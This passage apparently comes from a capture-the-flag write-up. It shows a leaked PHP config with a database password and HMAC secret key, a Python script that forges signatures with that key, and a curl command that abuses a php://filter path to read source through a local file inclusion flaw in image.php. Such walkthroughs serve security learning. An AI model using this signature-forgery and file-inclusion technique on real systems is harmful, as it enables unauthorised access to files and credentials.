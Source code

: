 Output:

```php
<?php
// Database connection settings
$servername = "db";
$username = "web";
$password = "TAJnF6YuIot83X3g";
$dbname = "web";


$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
?>
```
{: .wrap }

Now that we have the `SECRET_KEY`, we can easily calculate valid HMAC-SHA256 hashes for any path we want.
Here’s a simple Python script to automate this:

```python
import hmac
import hashlib
import sys

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = sys.argv[1].encode()
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()
print(signature)
```
{: file="hash_calc.py"}

Using this script, we can easily calculate the hash for any target file.
For example, to read the `image.php` source:

```bash
$ python3 hash_calc.py 'php://filter/convert.base64-encode/resource=image.php'
ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6

$ curl -s 'http://10.10.152.169/image.php?hash=ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6&path=php://filter/convert.base64-encode/resource=image.php' | base64 -d
```
{: .wrap }

And the `image.php` source code confirms that once the hash is valid, the file at the given `path` is simply included:

```php
<?php

include('dbconfig.php');
...
    $image_path = $_GET['path'];
    $hash= $_GET['hash'];

    $computed_hash=hash_hmac('sha256', $image_path, $SECRET_KEY);

    if ($image_path && $computed_hash === $hash) {
        // Get the MIME type of the image
        $image_info = @getimagesize($image_path);
        if ($image_info && isset($image_info['mime'])) {
            $mime_type = $image_info['mime'];
            // Set the appropriate content type header
            header("Content-type: $mime_type");

            // Output the image data
            include($image_path);
```